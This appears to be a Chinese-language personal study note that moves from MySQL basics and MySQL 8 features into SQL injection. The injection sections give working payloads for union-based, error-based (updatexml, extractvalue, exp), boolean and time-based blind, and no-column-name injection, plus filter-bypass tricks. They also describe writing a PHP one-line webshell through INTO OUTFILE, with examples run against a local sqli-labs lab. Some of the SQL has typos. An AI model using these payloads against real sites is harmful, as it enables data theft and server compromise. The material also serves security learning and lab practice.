

MySQL基础
SQL 基础语句
连接数据库服务器
设置环境变量后直接终端输入mysql
格式：mysql -u [用户名] -p [密码]
或：mysql -u [用户名] -p （回车）
密码：*********查看数据库服务器中的数据库
show databases;
进入数据库
use [库名];
查看数据库
查看数据库中的所有表
show tables;
查看库中一个表所有数据
selectfrom [表名];
查看表中指定列
select [列名] from [表名];
查看表中指定内容数据
selecfrom [表名] where id=[指定值];在数据库服务器中创建数据库
create [库名];
在数据库中创建表
create table [表名]
(
[第一列列名] [数据类型(长度\值)],
[第二列列名] [数据类型(长度\值)],
……..
[第n列列名] [数据类型(长度\值)]
);查看数据表详情
describe [表名];
向表中插入数据
insert into [表名]
values(“[第一行要输入的值]”,”[第二行要输入的值]”,”[第。。。要输入的值]”,”[最后一行要输入的值]”);删除命令
drop
删除数据库 drop database [库名];
删除数据库中的表 drop table [表名];删除表中数据
delete from [表名] where [行名=内容];
修改表中数据
update [表名] set [行名=”修改后内容”];
alter table [表名] add/drop/change [字段名 值];写文件
into outfile
格式：select “hello world” into outfile “[文件名/绝对路径或相对路径分情况使用]”;
全新版本（注入写入）：select * from users into outfile “[路径+文件名]” lines terminated by “[字符串1]”;
//意为users表中每一行数据都以字符串一结尾。读文件
load_file
格式：select load_file “[要读取的文件]”;注意：写入绝对路径时’/‘容易被作为转义符，所以通常需用到’//‘
重命名
rename
格式：rename tables/columns/databases “[表/列/数据库名]” to “[新名字]”;总结
建表约束
主键约束
primary key
主键约束能唯一确定一张表中的一条记录
即我们通过给某个字段添加主键约束，就能确保该记录不重复且不为空。
例：
create table mujie
(
id int primary key,
name varchar(40);
);
联合主键
同时定义多个主键约束，只要有一个不重复，那么两条记录就可以正常输入。
例如：
creste table mujie(id int,name varchar(20),message varchar(60),primary key(id,name));
该例子定义了俩个列为主键约束
此时，若输入两组name和id其中之一不同的数据，均可正常输入，只有两组数据name和id均相同，才无法输入。
注意：即使是联合主键，也不能有任意一项为空。自增约束
auto_increment
与主键约束配合使用
例如：
create table mujie
(
id int primary key auto_increment,
name varchar(40);
);
唯一约束
唯一约束如其字面意思，约束一列中不能出现重复数据。命令 unique 英文译：独一无二的。
使用方法与主键约束相同部分：
-联合唯一的用法与联合主键相同。
-用add添加约束与主键相同。
-用modify修改列从而修改约束与主键相同。使用方法与主键约束不同部分：
-删除唯一约束与删除主键约束不同
唯一约束的删除：
drop index //删除索引。
格式：
alter table [表名] drop index [列名];非空约束
规定该列的内容不为空(NULL)
修改创建完成的表
- 添加主键约束。
通过常用的添加操作添加主键约束。
alter table [表名] add 约束;
例如：alter table mujie add primary key(id); //给id这个列添加主键约束。
通过修改列添加主键约束。
alter table [表名] modify [列名] [数据类型] 约束;
例如： alter table mujie modify id int primary key(id) auto_increment; //修改表mujie中的id列为整型
通过修改删除约束同理，不输入约束即可。alter table [表名] drop[约束]; //删除主键约束。
例如：alter table mujie drop primary key; //删除mujie这个表中的主键约束。- 添加主键约束。
MYSQL:8.0.19新特性
MYSQL8安装
phpstudy集成环境最高到mysql:8.0.12，而mysql:8.0.12并没有新增我们需要的新特性
安装方法
- windows 系统：官网下载安装包到本地，配置环境变量，初始化
- linux 系统，同样官网安装
- docker ： docker pull mysql:8.0.19
这里我推荐使用docker 安装mysql:8.0.19
安装步骤
安装镜像：
sudo docker pull mysql:8.0.19
docker run 容器:
sudo docker run --name="mysql8" -p 3360:3306 -v /my/data/mysql8/:/var/lib/mysql/ -e MYSQL_ROOT_POSSWORD=root mysql:8.0.19
卷挂载路径：
/var/lib/mysql/ 数据存储目录
/etc/mysql/ mysql配置目录
/var/log/ 日志存储目录
卷的具体挂载可自行选择
启动容器
sudo docker start mysql8
进入容器
sudo docker exec -it mysql8 /bin/bash
进入mysql8
mysql -u root -p
root
安装完成
语句新增
table语句
查询语句
table [表名]；
同之前版本的select * from 【表名】; 都可以显示表的全部信息
支持语法：
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]] #该语句支持使用order by 和limit 语句进行查询order by
limit 1,2

values语句
官方语法：
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]row_constructor_list:ROW(value_list)[, ROW(value_list)][, ...]value_list:value[, value][, ...]column_designator:column_index
解析：
values row()语句：
values row(1,2,3);构造一个虚拟表，值为1，2，3 row译为行
这个语句可以构造多行数据
values row(1,2,3),row(4,5,6),row("a","b","c");
vlaues row()语句可接入多种语句中执行
values row("a") union select * from mujie;或者：
values row("a") union select * from mujie where id=1 and 1^2;select `3` from (select 3 union values row("a"))a;总的来说 values row() 语句就是提供了类似select 1,2,3 的功能，当使用values语句可以一次定义更多的虚拟数据
除了构建虚拟表，values row()语句还可以快速创建真实的表
values row()语句定义列名，需配合select 使用
select * from (values row(1,2,3)) as xxx(id,username,password);配合create table 语句
create table users select * from (values row(1,2,3)) as xxx(id,username,password);
定义表的类型
create table userss (id int,username char,password char) select * from (values row(1,2,3)) as xxx(id,username,password);
以上就是mysql8在命令部分的新特性，可用于注入攻击
注入部分
select * from 命令控制语句
联合查询
limit 语句
例如：limit 0,1 //从第一个值开始，输出一个值
limit 1,2 //从第二个开始，输出两个
以此类推order by 命令
英译：排序
升降排序
用于对结果集按照一个列或者多个列进行排序。
命令格式：
order by [列1];//将数据按列1顺序升序排列
order by [列2] DESC;//将数据按列2顺序降序排序
ASC 升序，使用order by一般默认升序排序
DESC 降序;
注意：ASC和DESC只对它紧跟着的第一个列名有效，其他不受影响，仍然是默认的升序。
确定列数(指定列排序)
order by语句可以不输入列名，而是输入数字表示具体列
如order by 1 ;表示对第一列进行排序
- 联合查询(union语句)
英译：联合
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。
请注意，UNION 内部的每个 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。
同时，每个 SELECT 语句中的列的顺序必须相同。
默认地，UNION 操作符选取不同的值。如果允许重复的值，需使用 UNION ALL。
union语法
select [列1名] from [表1名]
union
select [列2名] form [表2名];
//联合查询表1中列1和表2中列2，并输出其中所有内容(value)【不重复】。
使用union all 可输出重复的内容。
语句后可加入order by / where 语句注释联合查询结果。
union select [数字组]//例如：union select 1,2,3;
我们写的一串数字就是一个数组（或1个行向量），这时select实际上没有向任何一个数据库查询数据，即查询命令不指向任何数据库的表。返回值就是我们输入的这个数组。
select直接加数字串不指向任何数据库的表，用于找到数据库与前端显示的通道，确定注入点。
concat()函数
功能：将多个字符串连接成一个字符串。
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
语法：concat(str1, str2,…)
例1:select concat (id, name, score) as info from tt2;
//将表tt2中的id,name,score连接起来，输出到info中。
concat_ws()函数
和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符～（concat_ws就是concat with separator）
语法：concat_ws(separator, str1, str2, …)
说明：第一个参数指定分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null。
例如：concat_ws(‘,’,id,name,sorce) as info from tt2;group by 语句
英译：分组依据
用途如字面意思，通过by后的规则进行分组
所谓的分组就是将一个“数据集”划分成若干个“小区域”，然后针对若干个“小区域”进行数据处理。
举例：
select 类别, sum(数量) as 数量之和
from A png
group by 类别
group_concat() 函数
功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
相当于执行完group by 后再次执行concat()语句。
语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator ‘分隔符’] )
//distinct 英译：不同的。 可以排除重复值。
如果希望对结果中的值进行排序，可以使用order by子句
separator是一个字符串值，不进行规定默认为一个逗号。lines terminated by 方法
意为：每行都以…结尾
例如：lines terminated by ‘‘
每行都以单引号中的内容结束
常配合into outfile写入木马schema
英译：模式，架构
schema定义了表、每个表的字段，还有表和字段之间的关系。
简单说schema是开发者创建的，储存表、列信息的特殊数据库。
如果把database看作是一个仓库，仓库很多房间（schema），一个schema代表一个房间，table可以看作是每个房间中的储物柜，user是每个schema的主人，有操作数据库中每个房间的权利，就是说每个数据库映射user有每个schema（房间）的钥匙。
在mysql中，database与schema等价。
截取字符串
left()函数
left 英译：左边
语法：left（参数1，参数2） 意为 将参数1从左开始取参数2个
例如：left(abc,2) //将abc从左边取两位
注：此时无返回值
加入判断语句：
left(abc,1) > “a” //成立返回1，不成立返回0;mid()函数
mid 译为中间
此函数为截取字符串一部分。
语法：mid(column_name,start[,length])
start：起始值，mid函数用于将字符串从起始值(从1开始)开始截取指定位数
length:指定截取位数
例如：mid(abcdefg,1,1) //从“abcdefg”中第一个开始截取一字符
同left，加入判断语句可得到返回值substr()函数[等同于substring()函数]
substr 译：正则表达式
功能同mid()函数
语法:substr(string,start,length)
string为字符串，可以是sql语句,其他内容与mid()相同
例如：substr(123456,2,1)=2 //判断第二个是否为二，是返回正确(1)，不是返回(0)ord()函数
功能同mid，但会将得到的字符串转化为ASCII码值，常与前三个函数连用
ascii()函数
将括号内的字符串转化为ascii码值
regexp 方法
正则表达式函数，用与匹配文本，支持where指定
语法：select [表] from [数据库] where [指定检索] regexp ‘[关键字]’;
返回数据库/表/列中含有关键字的数据。
例如：select users from security where security.users regexp ‘^abc|^123|123|password$’;
//返回users表中以abc开头或以123开头或含有123或以password结尾的数据。
符号解析：
^ ：用字符串前，表示以此字符串开头
| ：用于两字符串中间，表示或
$ ：用于字符串末尾，表示以此字符串结尾
上述三个符号可以连用
特别的：
[字符串1]字符串2 ：用于写有重复字符的或语句
如：[abc]1 //返回含有a1或b1或c1的字符串
也可以写为[a-c]1，返回结果一致
- like 方法
like的用法大体上和regexp一致，只有符号表示有区别
like只有%
例如：select [表，列等] from [库，表等] where [指定检索] like ‘[关键字]’
select users from security where security like ‘G%’;
//返回以G开头的字段
同理：’%G’ - 返回以G结尾的字段,’%G%’ - 返回包含G的字段。
简易查看
database()
查看当前数据库：select database();user()
查看当前登录的用户：select user();version()
查看当前的数据库版本
报错注入
rand()函数
rand，random简写，译：随机的
在sql中用于返回一个范围在0-1的随机数，这点等同于excl表格
在如c、python等语言中，rand()函数用于返回伪随机数（随机整数），非0-1
特别的：
1、在rand后指定一个数，如rand(1),得到的随机数将固定，可以为小数，该方法遵循四舍五入法则
2、在rand()*N[N是一个数]将返回从0-N的随机数，但我测试后，我认为是将rand()得到的随机数乘N，N可以为小数
3、可以用于order by后，返回打乱顺序的列floor()函数
floor，译:地板，与c语言的地板除法类似
功能是取整（同c地板除法一样为向下取整）
例如：floor(2.9)=2round()函数
round,译：绕行，绕过，把数字四舍五入
功能同floor为取整，不同于floor向下取整，round是将数四舍五入ceiling()函数
ceiling，译：天花板
功能同floor为取整，但ceiling函数为向上取整count()函数
count，译：计数
例如：
count(columns)//返回列数
count(*)//输出总行数updatexml()函数
updatexml是基于PATH传参的函数
xml是xml文档的名称，中文为doc
updatexml译：更新xml文档
用于在sql中报错注入
语法：updatexml(XML_document,Xpath_string, new_value);
xml_document:原来文档的名称，是string类型
Xpath_string:Xpath格式的字符串，文件的路径
new_value：新的值，用于替换查找到符合条件的字符串
注意：因Xpath_string是字符串形式，所以若想正常报错，需用concat函数将返回的值连接->原理：
文件路径是不允许非法字符出现的，当出现非法字符就会爆出错误
所以使用查询语句查询后，和非法字符连接，就会形成报错
如：updatexml(1,(select concat(0x7e,schema_name) from information_schema.schemata limit 0,1),0)–+
这里0x7e是16进制的“”，属于非法字符，当放在合法的数据库名前，就会以非法路径报错
数据库本质类似文件夹，可以作为路径使用，不过这里是因为我们可以写入任意值作为路径，对不对倒是无所谓
除了select，还可以利用updatexml完成insert，update和delete注入，原理和select相同。
insert into guestbook(comment_id,comment,name) values (2,’0livia’ or updatexml(1,concat(0x7e,(version())),0) or’’,’Nervo’)
delete from guestbook where comment_id=2 or updatexml(2,concat(0x7e,(database())),0)
- extractvalue()函数
extract value译：提取值
功能：查询文档，相当于HTML文件中用 div>标签查找元素
语法：
extractvalue(xml文档名,路径)
原理同updatexml(),都是基于路径不能有非法字符
正则匹配
sql支持正则匹配
select * from users where id=1 and regexp '正则表达式';
规则：
^str表示匹配以str为开头的字符str匹配strstr$表示匹配以str为结尾的字符匹配多个字符
| 元字符 | 说明 |
|---|---|
| * | 0个或多个匹配 |
| + | 1个或多个匹配 |
| ？ | 0个或1个匹配 |
| {n} | 指定数目的匹配 |
| {n，} | 不少于指定数目的匹配 |
| {n,m} | 匹配数目的范围（m不超过255） |
注入攻击
SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
而造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。
写入文件
- 查看是否有读写权限
file_priv是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。select file_priv from mysql.user where user=$USER host=$HOST;
secure-file-priv是一个系统变量，对于文件读/写功能进行限制。具体如下：
- 无内容，表示无限制。
- 为NULL，表示禁止文件读/写。
- 为目录名，表示仅允许对特定目录的文件进行读/写。
注：5.5.53本身及之后的版本默认值为NULL，之前的版本无内容。
三种方法查看当前
secure-file-priv的值：select @@secure_file_priv; select @@global.secure_file_priv; show variables like "secure_file_priv";修改：
- 通过修改my.ini文件，添加：
secure-file-priv=- 启动项添加参数：
mysqld.exe --secure-file-priv=
写入小马——一句话木马
php木马
eval()函数
eval 译：邪恶的，目前常见于一句话木马攻击
用法：
eval(数字)，返回数字
eval(字符串)，解析字符串，作为代码运行_POST()函数与GET()函数
POST和GET都是bai向服务器提交数据，并且都会从服务器获取数据。区别：
1、传送方式：get通过地址栏传输，post通过报文传输。
2、传送长度：get参数有长度限制（受限于url长度），而post无限制
3、GET和POST还有一个重大区别，简单的说：
GET产生一个TCP数据包；POST产生两个TCP数据包
长的说：
对于GET方式的请求，浏览器会把http header和data一并发送出去，服务器响应200（返回数据）；
而对于POST，浏览器先发送header，服务器响应100 continue，浏览器再发送data，服务器响应200 ok（返回数据）。
过程不同
GET是把参数数据队列加到提交表单的ACTIONbai性所指的URL中，值和表单内各个字段一一对应，在URL中可以看到
POST是通过HTTP post机制，将表单内各个字段与其内容放置在HTML HEADER内一起传送到ACTIONbai性所指的URL地址。用户看不到这个过程。
获取值不同
对于get方式，服务器端用Request.QueryString获取变量的值。
对于post方式，服务器端用Request.Form获取提交的数据。
传送数据量不同
get传送的数据量较小，不能大于2KB。
post传送的数据量较大，一般被默认为不受限制。但理论上，IIS4中最大量为80KB，IIS5中为100KB。
盲注
布尔盲注
- if()函数
if(语句,正确,错误)
例如：if((ascii(substr((select database()),1,1))) > 122 ,1,2)
如果database第一个字符的ascii值大于122,返回1，否则返回2
完整语句：
?id=1’ and if((ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))>22),1,0)–+
时间盲注
length()函数
length 译为：长度
用于返回字符串长度
如：length(“security”)或 length(select database())=8sleep()函数
sleep 译为：睡觉
用于延迟网页响应
如：sleep(5) //延迟5秒后响应 或 睡眠5秒benchmark()函数
bench mark 译为基准点
用于循环执行一条语句
BENCHMARK（count,expr) 函数重复count次执行表达式expr，它可以用于计时MySQL处理表达式有多快，结果值总是0。
语法;
benchmark(执行次数，执行语句)，注入时用发同sleep()
1' and if(1=1,benchmark(1000000,md5('test')),0)--+benchmark()函数还可以用在select查询中
select * from users where id=0 union select 1,benchmark(10000000000000000,md5('test')),3;当语句正确时benchmark执行，页面显示延时
这样就巧妙的绕过了if()函数对盲注的影响
当然运算符注入也可以脱离if
运算符注入
php和mysql中存在多种运算符，这些运算符也可以应用在注入中
CTF中这种注入方式很常见
异或运算
符号：xor 或 ^
a ^ b 当a,b相同时返回0，不同时返回1
如id=1'^ (length("union")=5)--+ 当union未被过滤返回0,过滤返回1select * from users where id=1^1;
等于运算
符号：= 或 like
a=b时返回1，否则返回0
如：
select * from users where id=(1=1);注入语句：

不等运算
sql有一个特殊的不等运算符：<>
用法同!=
select * from users where id=1=(1<>0)=1;
非运算
sql允许！（非运算符）的存在
通过！假或！真，我们就可以灵活的注入各种情况
或者：

无列名注入
有些时候，我们无法得列名，这种情况包括但不限于过滤了information_schema库
表名的多种查询方式
- 系统库概念
mysql系统自带的库一共有四个分别为information_schema,mysql,perfromance_schema,sys
- information_schema库
information_schema是一个信息数据库，记录了其他所有数据库的信息
这是查询表名，列名最常用的库
- mysql库
mysql库是mysql的核心数据库，负责储存数据库的用户，权限设置，root密码就储存在这里
这个数据库同样储存了表名
从MYSQL5.5.8开始，InnoDB成为其默认存储引擎。而在MYSQL5.6以上的版本中，inndb增加了innodb_index_stats和innodb_table_stats两张表，这两张表中都存储了数据库和其数据表的信息，但是没有存储列名。
payload:
select group_concat(table_name) from mysql.innodb_table_stats || mysql.inndb_index_starts
- performance_schema库
performance_schema 主要用于手机服务器性能参数
- sys 库
Sys库所有的基础数据来自information_schema和performance_chema。目标是把performance_schema的把复杂度降低，其本身不储存数据
让DBA能更好的阅读这个库里的内容。让DBA更快的了解DB的运行情况。
可以通过其中的schema_auto_increment_columns 表来获取表名。
无列名原理
- 原理
原理和给列别名类似，类似于在取别名的同时查询数据
当然我认为有联合查询的影子
payload举例：
当select 1,2,3;时，数据库会自动建立一个列名和数据都为123的虚拟库
select 1,2,3;
联合查询基于这个原理，是将123写入列名下查看回显和数据
select * from users where id=0 union select 1,2,3;无列名原理恰好与此相反，是将数据写入虚拟的1,2,3,列下
select 1,2,3 union select * from users;

这样做，我们便从不知到列名，变成了自定义一个列名，查询这个虚拟表，就得到了数据
起别名查询
知道原理，我们可以明白，无列名注入的基本语句如下
select `3` from (select 1,2,3 union select * from users);
#括号中的语句表示创建的虚拟表
理论上这样没有错误，但括号里得到的是一个虚拟表，没有表名，会发生报错，所以我们需要给它起个表名
select `3` from (select 1,2,3 union select * from users)a; || as a
#直接跟a或者as a都是起别名的方式，这里a是我们给虚拟表别名

注意：3使用反引号包括，因为在虚拟表中，列名都是1，2，3，所以我们在查询语句中不能直接用 3 。
有时反引号被过滤，所有可以用另一种方式
select A from (select 1,2,'A' union select * from users)a;

或者给要查询的列也起别名
select c from (select 1 as a,2 as b,3 as c union select * from users)n

注入示例
这里以sql-labs-1为例
- payload
http://127.0.0.1/sql-labs/Less-1/?id=0' union select 1,2,group_concat(`3`) from (select 1,2 ,3 union select * from security.users)n--+ #联合注入之无列名注入
无列名只是把查询真实表改为了查询虚拟表，其他部分差别不大
无列名时使用join得到字段名
原理
join 用于连接两个表，将两个表的数据同时显示
上图是将两表简单相合，是一个无名称的虚拟表
当两表中列名存在重复时给虚拟表起别名，便会报错
如下
select * from (select * from users a join emails b)as a;先分别查出users和emails的数据，并连接为一个虚拟表，起别名为a，然后查询虚拟表a，这时a表会出现名称重复的字段，数据库报错
原理同下

通过这个原理，我们就可以在系统库被过滤的情况中完成对列名的注入
无列名payload示例
#完整sql语句 select * from users where id='0' union select 1,2,3 from (select * from users join users b using(id))n;

详解
select * from users where id='$id'这是系统本身的查询语句
0' union select 1,2,3 from (语句体)n;这里构造了一个典型的联合查询，n为表名，语句体是无列名注入的语句
0' union select 1,2,3 from (select users join users b)n;括号中语句构造了一个虚拟表，因为是由两个users表使用join语句连接而成，所以必然出现列名重复报错，别名为n便于查询
0' union select 1,2,3 from (select * from users join users a)n;join查询的两个表不能重名，所以要将一个表起别名
0' union select 1,2,3 from (select * from users join users a using(id))n;using()方法用于join中，规定join两个表连接时字段名相同的列
使用using()后，列名不会重复
同一张表也遵循这个原理
using()目的：
列名重复报错只会报错第一列，而不会全部报错
using()方法可以解决这个问题
注入完整语句
http://127.0.0.1/sql-labs/Less-1/?id=0' union select 1,2,3 from (select * from users join users b using(id,username))n--+
过滤括号的order by 大小比较注入
原理
- order by 方法用于指定列排序，默认是升序
- union select 联合查询可以输出一个虚拟表，表中同时存在原表的数据和联合的数据
- order by 同样可以对虚拟表进行排序
payload举例
select * from users where id=1 union select 1,2,3 order by 3;

目标是得到password的数据，使用union select 1,2,3 时，联合的第三列虚拟数据为3和Dumb,order by 排序时默认升序，所以会将3排在首列，当union select 连接的数据为1,2,”E”时，E比原表的D值更大，于是E排在了Dumb下面

这两种情况的页面回显必然有所不同，这样就可以通过回显来判断出password数据
特殊拦截的绕过方法
过滤逗号
使用盲注
subsrt()函数使用substr(data from 1 for 1) 代替 substr(data,1,1)
from 1 for 1 :从1到1
limit 0,1 使用 limit 0 offset 1 代替
offset 1 ：偏移量1
其他系统关键字被过滤/拦截
- 双写绕过关键字过滤
- 使用同义函数/语句代替，如if函数可用
case when condition then 1 else 0 end语句代替。
数字被过滤/拦截
下表摘自MySQL注入技巧
| 代替字符 | 数 | 代替字符 | 数、字 | 代替字符 | 数、字 | ||
|---|---|---|---|---|---|---|---|
| false、!pi() | 0 | ceil(pi()*pi()) | 10\ | A | ceil((pi()+pi())*pi()) | 20\ | K |
| true、!(!pi()) | 1 | ceil(pi()*pi())+true | 11\ | B | ceil(ceil(pi())*version()) | 21\ | L |
| true+true | 2 | ceil(pi()+pi()+version()) | 12\ | C | ceil(pi()*ceil(pi()+pi())) | 22\ | M |
| floor(pi())、~~pi() | 3 | floor(pi()*pi()+pi()) | 13\ | D | ceil((pi()+ceil(pi()))*pi()) | 23\ | N |
| ceil(pi()) | 4 | ceil(pi()*pi()+pi()) | 14\ | E | ceil(pi())*ceil(version()) | 24\ | O |
| floor(version()) //注意版本 | 5 | ceil(pi()*pi()+version()) | 15\ | F | floor(pi()*(version()+pi())) | 25\ | P |
| ceil(version()) | 6 | floor(pi()*version()) | 16\ | G | floor(version()*version()) | 26\ | Q |
| ceil(pi()+pi()) | 7 | ceil(pi()*version()) | 17\ | H | ceil(version()*version()) | 27\ | R |
| floor(version()+pi()) | 8 | ceil(pi()*version())+true | 18\ | I | ceil(pi()*pi()*pi()-pi()) | 28\ | S |
| floor(pi()*pi()) | 9 | floor((pi()+pi())*pi()) | 19\ | J | floor(pi()*pi()*floor(pi())) | 29\ | T |
报错注入详解
报错注入类型
- 大数溢出
- 函数报错
- 主键，字段重复
大数溢出
sql可以运行并处理的数是有限的，当数超过上限，便会发生大数溢出
主要函数
exp(),pow()
exp和pow两个函数都用来计算次方，exp(2)表示e的2次,pow(2,2)表示2的2次
若平方过大，则报错
payload
exp(~(select * from(select user())a))
这里我也不懂，此方法仅限mysql5使用
函数报错
最常见的是updatexml()和extractvalue()函数，在注入攻击中已经提及
其他函数这里不想解释了，看最下面特别鸣谢吧